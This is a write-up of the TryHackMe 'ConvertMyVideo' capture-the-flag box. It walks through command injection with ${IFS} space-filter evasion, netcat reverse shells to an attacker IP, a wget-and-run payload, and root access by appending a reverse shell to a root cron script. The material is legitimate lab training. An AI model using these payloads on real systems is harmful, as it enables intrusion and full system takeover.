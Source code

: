 ```yaml
---
title: ConvertMyVideo - Medium THM
date: 2023-11-12 08:11:31 +/-0800
categories: [writeup, tryhackme]
writeup: :title
permalink: /convert
tags: [thm, writeup, medium, linux, command injection, web, talace]     # TAG names should always be lowercase
---
```


- OS: **Linux**
- Difficulty: **Medium**
- Author: **Talace**

# Scanning 🤖

**threader300.py**
```
**python3 threader3000.py**
```
```
Port 22 is open
Port 80 is open
```
**nmap scan**
```
nmap -p22,80 -sV -sC -T4 -Pn -oA 10.10.232.225 10.10.232.225
```
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
# Enumeration 👀

**dirb scan**
```
dirb http://10.10.232.225/ /usr/share/wordlists/dirb/common.txt
```
```
---- Scanning URL: http://10.10.232.225/ ----
+ http://10.10.232.225/admin (CODE:401|SIZE:460)
```
# Command injection 💉
We spawn on the main page

![mainPage](/assets/convertMyVideo/mainPage.png)

I capture the request in burp.. seems not very secure
![burp1](/assets/convertMyVideo/burp1.png)

Try **'id'** command, it works!
![idCommand](/assets/convertMyVideo/idCommand.png)

I can't **'ls -la'**, it return nothing, maybe i can't have white space ? 
I have found that the var IFS, is by default a ' ', so let's try with it! 
```bash
--version;ls${IFS}-la;
```

Nice it work, from this i'm able to retrieve a lot of data, and the user by the same occasion
![userFlag](/assets/convertMyVideo/userFlag.png)

**It's cool, but we need a way to enter, let's put a reverse shell in it!**
open my listener:
```bash
nc -nvlp 4444
```

And send my reverse shell! 
```bash
rm${IFS}/tmp/f;mkfifo${IFS}/tmp/f;cat${IFS}/tmp/f|sh${IFS}-i${IFS}2>&1|nc${IFS}10.8.138.226${IFS}4444${IFS}>/tmp/f;
```

**Oh crap!? It close instantly, let's wget and run script!**😦
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.138.226 4444 >/tmp/f" >> shell.sh
```
Open a http server
```bash
python3 -m http.server 80
```
And lunch my new command, wget the script and run it with bash
```bash
--version;wget${IFS}http://10.8.138.226/pwn.sh;bash${IFS}shell.sh;
```
**Yessir! We are in!**😼

# Privilege escalation 🐧
**Upgrade the shell**
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

**Let's run pspy**
check wich one is need:
```bash
uname -a

Output: Linux dmv 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
I need the 64 bits, wget it and change rights:
```bash
wget http://10.8.138.226:81/pspy64
&&
chmod +xs pspy64
```

**Now lunch the pspy**

./pspy64, Oh interesting cron job!
```bash
2023/11/11 18:13:01 CMD: UID=0     PID=27982  | bash /var/www/html/tmp/clean.sh
```

**Let's lunch a reverseshell from it.**

Open a netcat:
```bash
nc -nvlp 4445
```
Now put the revershell in it.
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.138.226 4445 >/tmp/f" >> clean.sh
```
Go back on your netcat... Boom! Got root GG!

![ROOT](/assets/convertMyVideo/root.png)

# Resources
How to run a command without white space: [Article](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces?source=post_page-----e012e7db996--------------------------------)